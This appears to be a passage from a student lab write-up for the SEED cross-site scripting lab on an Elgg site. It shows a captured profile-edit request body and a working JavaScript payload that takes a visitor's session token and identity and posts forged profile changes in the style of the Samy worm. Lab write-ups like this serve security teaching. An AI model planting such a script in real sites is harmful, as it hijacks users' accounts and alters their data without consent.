 \documentclass[12pt]{article}
\begin{document}
\begin{verbatim}
 __elgg_token=-HmBHBxcaADQibHk6G3bCQ&__elgg_ts=1707413678&name=Samy&description=&accesslevel[description]=1&briefdescription=1905001&accesslevel[briefdescription]=1&location=&accesslevel[location]=1&interests=&accesslevel[interests]=1&skills=&accesslevel[skills]=1&contactemail=&accesslevel[contactemail]=1&phone=&accesslevel[phone]=1&mobile=&accesslevel[mobile]=1&website=&accesslevel[website]=1&twitter=&accesslevel[twitter]=1&guid=59
\end{verbatim}

So, basically content is the concatenated form of all the attributes. We can use this directly in the following way:

\begin{verbatim}
<script type="text/javascript">
    window.onload = function () {
        var ts = elgg.security.token.__elgg_ts;
        var token = elgg.security.token.__elgg_token;
        var userName = elgg.session.user.username;
        var guid = elgg.session.user.guid;
        var sendurl = '/action/profile/edit';
        var content = `__elgg_token=${token}&__elgg_ts=${ts}&name=${userName}&description=1905001&accesslevel[description]=1&briefdescription=I am Samy, the worm. Catch me if you can.&accesslevel[briefdescription]=1&location=Moscow&accesslevel[location]=1&interests=Hacking&accesslevel[interests]=1&skills=Cyber Security&accesslevel[skills]=1&contactemail=abc@yahoo.com&accesslevel[contactemail]=1&phone=9786546&accesslevel[phone]=1&mobile=01234567898&accesslevel[mobile]=1&website=www.clickme.com&accesslevel[website]=1&twitter=elonmusk&accesslevel[twitter]=1&guid=${guid}`;

        if (guid != 59) {
            var Ajax = null;
            Ajax = new XMLHttpRequest();
            Ajax.open("POST", sendurl, true);
            Ajax.setRequestHeader("Host", "www.seed-server.com");
            Ajax.setRequestHeader("Content-Type",
                "application/x-www-form-urlencoded");
            Ajax.send(content);
        }
    }
</script>
\end{verbatim}

This yields the expected results.\newline
But there is a more elegant solution, through Form Data. We end up using that.
\end{document}
